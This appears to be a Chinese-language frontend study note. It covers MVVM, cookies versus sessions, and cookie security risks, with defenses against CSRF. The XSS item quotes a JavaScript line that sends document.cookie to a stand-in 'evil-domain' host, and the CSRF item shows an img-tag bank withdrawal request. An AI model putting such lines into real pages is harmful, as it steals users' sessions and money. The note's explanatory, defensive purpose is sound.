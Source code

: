 （2）MVVM是Model-View-ViewModel的简写。即模型-视图-视图模型。是MVC的升级版

* 【模型】指的是后端传递的数据。
* 【视图】指的是所看到的页面。
* 【视图模型】mvvm模式的核心，它是连接view和model的桥梁。它有两个方向，也就是常说的双向绑定。 

（3）在以前传统的开发模式当中即MVC模式，前端人员只负责MVC当中的View（视图）部分，写好页面交由后端创建渲染模板并提供数据，随着MVVM模式的出现前端已经可以自己写业务逻辑以及渲染模板，后端只负责数据即可，前端所能做的事情越来越多。

## cookie和session的区别

> Session是另一种记录客户状态的机制，不同的是Cookie保存在客户端浏览器中，而Session保存在服务器上。客户端浏览器访问服务器的时候，服务器把客户端信息以某种形式记录在服务器上。这就是Session。客户端浏览器再次访问时只需要从该Session中查找该客户的状态就可以了 。

* [Cookie 和 Session 关系和区别](https://juejin.cn/post/6844903575684907016)

### Cookie和Session关系

1. 都是为了实现客户端与服务端交互而产出
2. Cookie是保存在客户端，缺点易伪造、不安全
3. Session是保存在服务端，会消耗服务器资源
4. Session实现有两种方式：Cookie和URL重写

### Cookie带来的安全性问题

1. **会话劫持和XSS**：在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。
2. **跨站请求伪造（CSRF）**：维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：`<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">`当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。**解决CSRF的办法有：隐藏域验证码、确认机制、较短的Cookie生命周期等**

 ### 如何防御

**（1）验证 HTTP Referer 字段** 

 根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。 

如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值 。

然而，这种方法并非万无一失。Referer 的值是由浏览器提供的 ，目前已经有一些方法可以篡改 Referer 值 。

即便是使用最新的浏览器，黑客无法篡改 Referer 值，这种方法仍然有问题。因为 Referer 值会记录下用户的访问来源，有些用户认为这样会侵犯到他们自己的隐私权，因此，用户自己可以设置浏览器使其在发送请求时不再提供 Referer。当他们正常访问银行网站时，网站会因为请求没有 Referer 值而认为是 CSRF 攻击，拒绝合法用户的访问。 

**（2）在请求地址中添加 token 并验证** 

CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。 

这种方法要比检查 Referer 要安全一些，token 可以在用户登陆后产生并放于 session 之中，然后在每次请求时把 token 从 session 中拿出，与请求中的 token 进行比对，但这种方法的难点在于如何把 token 以参数的形式加入请求。 在一个网站中，可以接受请求的地方非常多，要对于每一个请求都加上 token 是很麻烦的。

**（3）SameSite Cookie**

Set-Cookie 响应头新增 SameSite 属性，它用来标明这个 cookie 是个“同站 cookie”，同站 cookie 只能作为第一方 cookie，不能作为第三方 cookie。SameSite 有两个属性值，分别是 Strict 和 Lax
